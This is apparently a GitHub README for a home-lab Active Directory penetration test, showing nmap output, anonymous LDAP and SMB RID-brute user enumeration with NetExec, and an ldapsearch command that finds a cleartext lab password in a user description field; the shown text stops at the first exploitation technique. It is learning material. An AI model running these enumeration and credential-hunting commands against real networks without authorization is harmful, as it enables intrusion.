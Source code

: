 # Active-Directory-Pen-testing-Lab
This project simulates a real-world internal penetration test in a controlled lab environment. The goal is to compromise a Windows Server 2022 Domain Controller and Internal Network using a Kali Linux attacker machine through enumeration, exploitation, and post-exploitation techniques.

Project Summary

- **Attacker Machine:** Kali Linux
- **Target Machine:** Windows Server 2022 (Active Directory Domain Controller)
- **Domain Name:** `orb.corp0`
- **Objective:** Gain initial access, enumerate the domain, escalate privileges, and extract sensitive data (e.g., password hashes, domain admin credentials).
- **Scope:** Internal black-box test — attacker has direct network access but no initial credentials.

Lab Architecture

| Machine          | Role                            | IP Address     |
|------------------|---------------------------------|----------------|
| Kali Linux       | Attacker                        | 192.168.50.10  |
| Windows Server   | Domain Controller (DC)          | 192.168.50.129 |
| Windows 10       | Windows client                  |                |

## 1. Information Gathering

### Nmap Scan

> **Tool:** `nmap`  
> **Purpose:** Identify open ports and running services on the target system.

```bash
nmap -sCV -p- 192.168.50.129

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  Windows SMB file sharing
464/tcp   open  kpasswd5      Kerberos password change
593/tcp   open  ncacn_http    RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Global Catalog LDAP
3269/tcp  open  tcpwrapped
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0
5985/tcp  open  http          Windows Remote Management (WinRM)
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0
```
> **Purpose:** Identify open ports and running services on the target system.

## 2. Enumeration

### LDAP Enumeration with NetExec (nxc)

> **Tool:** `nxc`

> **Purpose:** Perform anonymous LDAP queries to extract usernames and domain structure

```bash
nxc ldap 192.168.50.129 -u '' -p '' --users

[*] Total records returned: 67
DC=orb,DC=corp
CN=Administrator,CN=Users,DC=orb,DC=corp
CN=Guest,CN=Users,DC=orb,DC=corp
CN=krbtgt,CN=Users,DC=orb,DC=corp
CN=alice wonderland,CN=Users,DC=orb,DC=corp  
CN=bob builder,CN=Users,DC=orb,DC=corp
CN=jerry cantrell,CN=Users,DC=orb,DC=corp
CN=kurt cobain,CN=Users,DC=orb,DC=corp 
CN=mssql_svc,CN=Users,DC=orb,DC=corp
CN=http_svc,CN=Users,DC=orb,DC=corp
CN=Floor,CN=Users,DC=orb,DC=corp
CN=IT,CN=Users,DC=orb,DC=corp
CN=HR,CN=Users,DC=orb,DC=corp
CN=Management,CN=Users,DC=orb,DC=corp
```
> **Success:** Anonymous access to LDAP allowed us to enumerate domain users and service accounts without credentials. 

### SMB Enumeration with NetExec RID Brute Force

> **Tool:** `nxc`

> **Purpose:** Enumerate RID values via SMB to uncover domain user accounts

```bash
nxc smb 192.168.50.129 -u 'anonymous' -p '' --rid-brute > domainusers.txt
1101: ORB\DnsAdmins (SidTypeAlias)
1102: ORB\DnsUpdateProxy (SidTypeGroup)
1103: ORB\alice.wonderland (SidTypeUser)
1104: ORB\bob.builder (SidTypeUser)
1105: ORB\jerry.cantrell (SidTypeUser)
1106: ORB\kurt.cobain (SidTypeUser)
1107: ORB\dana.scully (SidTypeUser)
1108: ORB\walter.white (SidTypeUser)
1109: ORB\james.bond (SidTypeUser)
1110: ORB\bruce.wayne (SidTypeUser)
```
> **Success:** Successfully enumerated valid domain users and groups using SMB anonymous access with RID brute-forcing

## 3. Exploitation 

Using the usernames previously enumerated, several attacks were launched to gain initial access and extract service account Kerberos tickets for offline password cracking.

### Technique 1: LDAP Description Disclosure

> **Tool:** `ldapsearch`  
> **Purpose:** Dump LDAP user attributes and look for password leaks or notes in the `description` field.

```bash
ldapsearch -x -H ldap://192.168.50.129 -b "DC=orb,DC=corp" '(objectclass=person)' | grep -ia desc
```
> **Results:**
> **description:** 3edcxsw2#EDCXSW@

> A cleartext password was found in the description field — likely a human error or documentation leak.
